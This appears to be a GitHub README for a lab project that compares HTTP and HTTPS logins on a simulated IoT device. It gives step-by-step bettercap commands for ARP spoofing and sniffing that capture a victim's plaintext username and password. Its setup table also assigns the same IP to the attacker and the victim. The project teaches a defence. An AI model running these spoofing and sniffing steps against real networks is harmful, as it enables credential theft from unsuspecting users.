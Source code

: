 # 🔐 HTTPS-IoT Demo: Secure Web Login Against MITM Attacks

This project demonstrates how HTTPS protects user credentials from interception by man-in-the-middle (MITM) attacks. It simulates a login page for an IoT device served over both HTTP and HTTPS, allowing a clear comparison between insecure and secure communication.

📌 Project Overview
- 🔓 **HTTP Mode**: Credentials are sent in plaintext, easily captured via ARP spoofing + packet sniffing.
- 🔒 **HTTPS Mode**: Credentials are encrypted with TLS. MITM attacks will not reveal any sensitive data without the client trusting a malicious certificate.


### Requirements

- `Python 3.x`
- Flask (`pip install flask`)
- A Kali Linux with `bettercap` installed (usually preinstalled)
- Victim device (e.g., another VM or physical device) 

Role | IP Example  
---- | ----- 
Attacker (Kali VM) | 192.168.1.125
Server (This project) | 192.168.1.108
Victim (Ubuntu VM) |	192.168.1.125

*Ensure all devices are on the same LAN or bridge network.*

### 🔓Attack HTTP with Bettercap
**1. Enable IP Forwarding (Kali)**

　`echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward`

**2. Launch Bettercap**

　`sudo bettercap -iface eth0`

　Replace eth0 with your Kali's actual network interface (use `ip a` to check).

**3. In Bettercap console**

　`set arp.spoof.targets 192.168.1.125`  Target the victim

　`arp.spoof on`

**4. Enable HTTP sniffing (for login form capture)**

　`set http.proxy.script /usr/share/bettercap/caplets/http-req-dump/http-req-dump.js`

　`http.proxy on`

　`net.sniff on`

**5. From the server machine**

`py server.py`

By default, it runs at: `http://0.0.0.0:8080`

**6. From the Victim Machine**

　Open browser and visit:

　`http://192.168.1.108:8080/login.html`

　Login with any credentials.

**📥 What You Capture**

In the Bettercap terminal or Web UI (Events), you will see:

`[net.sniff.http.request] POST /login
　username=XXXX&password=YYYY`

### 🔒Defense with HTTPS

Uncomment the `ssl_context` line in `server.py` and run:`python server.py`

Once the server is upgraded to HTTPS, credentials are encrypted

Bettercap will not capture login data unless:

- You use `https.proxy on`

- The victim trusts Bettercap's MITM certificate



## 📂 Folder Structure
MITM/  
    ├── README.md  
    ├── dashnewv10.html          # Simulated dashboard page  
    ├── fetchbannaprice.html       
    ├── index.html                 
    ├── login.html               # Login form page (for capture/testing)  
    ├── server.py                # A script to start a local HTTP/HTTPS service  
    ├── ssl/                   # Self-signed certificate  
    　　├── iot-dash.crt  
    　　└── iot-dash.key  
    └── .idea/                     


